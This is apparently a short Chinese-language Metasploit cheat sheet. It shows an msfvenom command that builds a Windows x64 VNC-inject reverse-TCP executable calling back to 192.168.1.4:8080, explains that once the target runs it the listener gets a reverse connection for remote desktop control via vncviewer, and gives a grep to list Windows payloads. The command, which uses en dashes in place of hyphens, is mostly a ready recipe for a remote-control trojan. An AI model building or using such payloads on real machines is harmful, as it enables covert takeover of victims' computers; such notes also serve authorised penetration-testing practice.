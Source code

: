 # 远程控制

选择windows/x64/vncinject/reverse_tcp，设置AUTOVNC为false，run之后，再开启vncviewer

配置如下
```
msfvenom –p windows/x64/vncinject/reverse_tcp
AUTOVNC=false
LHOST=192.168.1.4
LPORT=8080
–f exe
–o 192.168.1.4-8080.exe
run
```
目标主机执行payload后，监听器需成功接收反连，然后打开vncviewer，访问127.0.0.1:5900

# 检索包含windows的Payload

经测试发现，每行开头有4个空格

```
msfvenom -l payloads | grep "^   windows"
```


